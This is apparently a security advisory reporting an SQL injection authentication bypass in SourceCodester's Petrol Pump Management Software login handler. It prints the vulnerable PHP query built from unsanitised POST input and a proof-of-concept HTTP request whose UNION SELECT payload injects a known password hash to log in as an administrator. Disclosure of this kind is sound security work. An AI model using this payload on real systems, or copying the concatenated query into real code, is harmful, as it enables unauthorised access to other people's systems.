 # SOURCECODESTER / Petrol pump management software - login_crud.php SQL Injection Auth Bypass

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://www.sourcecodester.com/php/17180/petrol-pump-management-software-free-download.html

## Affected Component
> /admin/app/login_crud.php

## Code
```php
 $stmt1 = $conn->prepare("SELECT * FROM `login` where email='".$_POST['email']."' AND password='".$password."'");
//         print_r($stmt1);
//
            $stmt1->execute();

            $record=$stmt1->fetchAll();
//            print_r($record);exit;

            $res=count($record);
            if ($res>0) {
                foreach ($record as $res) {
                    // print_r($res);exit;
                    if ($password==$res['password'])
                    {
                    $_SESSION['id']=$res['id'];
                }
                header("location:../dashboard.php" ); 
            }
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /admin/app/login_crud.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 189

email='+UNION%20SELECT%201%20as%20id%2cNULL%2c'a9eb3f6e9eee693434663613e83287ac8b0b7f5f67f4559e40258074a4b0dce6'%20as%20password%2cNULL%2cNULL%2cNULL%2cNULL%20%23&password=NoChizPlz&submit=
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/160950031/98f26604-9bb9-4f76-b9ea-1505690aa13c)
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/160950031/ed586fa1-1470-4c10-8991-62fb808661e9)

